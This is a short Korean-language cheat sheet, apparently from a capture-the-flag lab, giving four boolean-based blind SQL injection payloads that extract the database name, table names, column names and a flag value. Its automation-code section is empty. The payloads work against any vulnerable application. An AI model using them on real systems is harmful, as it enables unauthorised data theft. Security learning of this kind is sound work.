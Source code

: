 ### Blind SQL Injection 페이로드 치트시트
| 단계  | 목적        | 전체 페이로드                                                                                                                                                                                  |
| --- | --------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1단계 | DB 이름 추출  | `normaltic' AND (ASCII(SUBSTR((SELECT database()), 1, 1)) > 100) AND '1'='1`                                                                                                             |
| 2단계 | 테이블 이름 추출 | `normaltic' AND (ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema='blindSqli' LIMIT 1 OFFSET 0), 1, 1)) > 100) AND '1'='1`                              |
| 3단계 | 컬럼 이름 추출  | `normaltic' AND (ASCII(SUBSTR((SELECT column_name FROM information_schema.columns WHERE table_schema='blindSqli' AND table_name='flagTable' LIMIT 1 OFFSET 0), 1, 1)) > 100) AND '1'='1` |
| 4단계 | 데이터 추출    | `normaltic' AND (ASCII(SUBSTR((SELECT flag FROM flagTable LIMIT 1 OFFSET 0), 1, 1)) > 100) AND '1'='1`                                                                                   |

### 자동화 코드 

<details><summary>자동화 코드 </summary></details> 
